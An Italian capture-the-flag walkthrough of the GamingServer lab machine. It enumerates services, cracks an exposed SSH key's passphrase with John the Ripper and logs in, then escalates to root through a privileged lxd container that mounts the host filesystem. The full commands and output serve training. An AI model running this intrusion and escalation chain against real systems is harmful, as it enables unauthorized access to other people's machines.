

# GamingServer

Partiamo come al solito ad enumerare i servizi presenti nella macchina, usiamo `nmap` 

```bash
kali@kali:~/Desktop/CTF/GamingServer$ sudo nmap -sS -sV -sC -p- 10.128.168.151 -o nmap.txt    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 20:07 -0400
Nmap scan report for gamingserver.local (10.128.168.151)
Host is up (0.033s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Abbiamo due servizi standard

| Servizio + porta | Versione | Eventuali Note |
| --- | --- | --- |
| SSH (22) | OpenSSH 7.6p1 | - |
| http (80) | Apache httpd 2.4.29 | - |

Guardando il sito nella homepage con ispeziona pagina vediamo 



Sappiamo quindi che esiste un utente **john** probabilmente con qualche privilegio interessante, visto che può inserire contenuto nella pagina.

Eseguiamo anche un *Directory Discovery* per trovare nuove pagine nascoste

```bash
kali@kali:~$ ffuf -u http://10.128.168.151/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.txt,.bkp -c
about.php               [Status: 200, Size: 2213, Words: 94, Lines: 96, Duration: 32ms]
index.html              [Status: 200, Size: 2762, Words: 241, Lines: 78, Duration: 31ms]
robots.txt              [Status: 200, Size: 33, Words: 3, Lines: 4, Duration: 30ms]
robots.txt              [Status: 200, Size: 33, Words: 3, Lines: 4, Duration: 29ms]
secret                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 29ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 32ms]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 30ms]

```

Aprendo `secret` si trova un file `secretKey` che si tratta di una chiave `RSA` per login via `SSH` *probabilmente*.

Quini scarichiamola

```bash
kali@kali:~/Desktop/CTF/GamingServer$ wget http://10.128.168.151/secret/secretKey
```

Analizzandola vediamo che è protetta da password

```bash
kali@kali:~/Desktop/CTF/GamingServer$ openssl rsa -in secretKey -check -noout 
Enter pass phrase for secretKey:
```

Guardando la cartella `/uploads/` troviamo un file `dict.lst` che contiene una `wordlist` , proviamo a scaricarla e usare questa con `john the ripper`.

```bash
kali@kali:~/Desktop/CTF/GamingServer$ john --wordlist=dict.lst hash.txt                        
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)(
```

```bash
kali@kali:~/Desktop/CTF/GamingServer$ john --show hash.txt
secretKey:letmein

1 password hash cracked, 0 left
```

E infatti usando come nome `john`  e collegandoci a **SSH** tramite chiave **RSA** otteniamo la connessione con SSH

```bash
kali@kali:~/Desktop/CTF/GamingServer$ chmod 600 secretKey                 
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/GamingServer$ ssh john@10.128.140.250 -i secretKey

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

Trovando la prima flag nella `home directory` di john: `a5************************7e`

Guardando con `uname -a` notiamo una strano nome della versione del **kernel**

```bash
john@exploitable:~$ uname -a
Linux exploitable 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Sembra quasi che il creatore di questa macchina, voglia che sfruttiamo una vulnerabilità del Kernel Linux 4.15.0 per ottenere i privilegi di root. In particolare cercando ho trovato **CVE-2018-18955** *(Un difetto nelle mappature UID/GID tra i namespace utente annidati e il kernel consente a un utente locale non privilegiato di ottenere i privilegi di root.)*

Guardando i file con *SUID* attivo troviamo proprio 

```bash
944     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
946     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap

```

Strada sbagliata. Guardando con comando `id` i gruppi dell’utente notiamo

```bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Che fa parte anche dei gruppi `sudo` e `lxd` (un gestore di container su linux, una brutta copia di docker/podman) possiamo quindi creare un container con privilegi di root.

Seguiamo la guida di [HackTricks](https://hacktricks.wiki/en/linux-hardening/user-information/interesting-groups-linux-pe/lxd-privilege-escalation.html) per fare privesc con **lxc**

Scarichiamo quindi un immagine **alpine** per **lxc** attraverso uno strumento apposito

```bash
kali@kali:~/Desktop/CTF/GamingServer$ git clone https://github.com/saghul/lxd-alpine-builder.git                                                                                         
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 57, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 57 (delta 6), reused 8 (delta 4), pack-reused 42 (from 1)
Receiving objects: 100% (57/57), 3.12 MiB | 4.49 MiB/s, done.
Resolving deltas: 100% (19/19), done.
kali@kali:~/Desktop/CTF/GamingServer$ cd lxd-alpine-builder
                                                             
kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
                                               
kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ sudo ./build-alpine
```

E trasferiamo il file al server

```bash
kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ python3 -m http.server 8001

john@exploitable:~$ wget http://192.168.131.79:8001/alpine-v3.8-x86_64-20261031_1605.tar.gz
--2026-10-31 20:06:28--  http://192.168.131.79:8001/alpine-v3.8-x86_64-20261031_1605.tar.gz
Connecting to 192.168.131.79:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2599066 (2.5M) [application/gzip]
Saving to: ‘alpine-v3.8-x86_64-20261031_1605.tar.gz’

alpine-v3.8-x86_64-20261031_1605.tar.gz              100%[====================================================================================================================>]   2.48M  1.87MB/s    in 1.3s    

2026-10-31 20:06:29 (1.87 MB/s) - ‘alpine-v3.8-x86_64-20261031_1605.tar.gz’ saved [2599066/2599066]

john@exploitable:~$ ls
alpine-v3.8-x86_64-20261031_1605.tar.gz  user.txt
john@exploitable:~$ lxc image import ./alpine-v3.8-x86_64-20261031_1605.tar.gz --alias myimage
Image imported with fingerprint: 550dbea8a243bb77441cbaa2200e3d6c0c47c2a1f754b3c2145ec50a64d7f8c2
+------+-------+------+------+------+-----------+
john@exploitable:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
john@exploitable:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
john@exploitable:~$ lxc start mycontainer
john@exploitable:~$ lxc exec mycontainer /bin/sh
~ # whoami
root

/ # ls -la /mnt/root/root/
total 32
drwx------    3 root     root          4096 Feb  5  2020 .
drwxr-xr-x   24 root     root          4096 Feb  5  2020 ..
-rw-------    1 root     root            42 Feb  5  2020 .bash_history
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Feb  5  2020 .ssh
-rw-------    1 root     root          1090 Feb  5  2020 .viminfo
-rw-r--r--    1 root     root            33 Feb  5  2020 root.txt
/ # cat /mnt/root/root/root.txt 
*****************************

```